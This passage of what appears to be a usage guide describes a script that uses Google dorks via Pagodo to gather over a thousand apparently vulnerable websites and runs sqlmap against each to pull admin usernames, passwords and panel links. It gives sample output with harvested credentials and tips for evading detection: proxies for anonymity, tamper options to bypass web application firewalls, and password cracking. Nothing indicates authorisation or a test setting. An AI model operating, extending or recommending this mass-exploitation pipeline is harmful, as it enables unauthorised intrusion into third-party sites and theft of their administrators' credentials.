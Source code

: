 #### Step 3: Interact with the Script
- **Initial Run**: The script will:
  - Use Pagodo to find 1000+ sites and save them to a file (e.g., `vulnerable_sites_20250406_123456.txt`).
  - Scan each site with sqlmap and display results.
- **After Completion**: It will ask, "Do you want to scan another 1000 sites? (y/n)".
  - Type `y` to repeat the process with a new list.
  - Type `n` (or anything else) to exit.

#### Example Output
```
Searching for vulnerable sites using Pagodo...
Found 1023 sites, saved to vulnerable_sites_20250406_123456.txt

Scanning http://example1.com/index.php?id=1...
Scanning http://example2.com/page.php?id=2...

=== Scan Results ===

Site: http://example1.com/index.php?id=1
Username: admin
Password: pass123
Panel Link: http://example1.com/admin
--------------------------------------------------

Site: http://example2.com/page.php?id=2
Username: Not found
Password: Not found
Panel Link: Not found
--------------------------------------------------

Do you want to scan another 1000 sites? (y/n): 
```

---

### Detailed Guidance
#### Prerequisites Checklist
- **System**: Linux (e.g., Kali, Ubuntu) recommended for compatibility with security tools. Windows may require path adjustments.
- **Dependencies**: Python 3, Pagodo, sqlmap, and the dorks file must all be present.
- **Internet**: A stable connection is required for Pagodo to query Google and for sqlmap to scan sites.
- **Resources**: Scanning 1000 sites requires significant CPU, RAM, and time (hours to days depending on network speed and site responsiveness).

#### Customization Options
1. **Number of Sites**:
   - Change `min_sites=1000` in `finder(min_sites=1000)` to any number (e.g., 500 or 2000).
2. **Parallel Workers**:
   - Adjust `max_workers=5` in `prvysi()` to increase/decrease simultaneous scans (e.g., 10 for faster processing, but beware of resource limits).
3. **sqlmap Settings**:
   - Modify the `command` list in `scan_site()` to add options like:
     - `--proxy=http://your_proxy` (for anonymity).
     - `--tamper=space2comment` (to bypass WAFs).
     - `--passwords` (to crack hashed passwords if found).
4. **Dorks**:
   - Enhance `sqli_dorks.txt` with more specific or advanced dorks for better targeting.
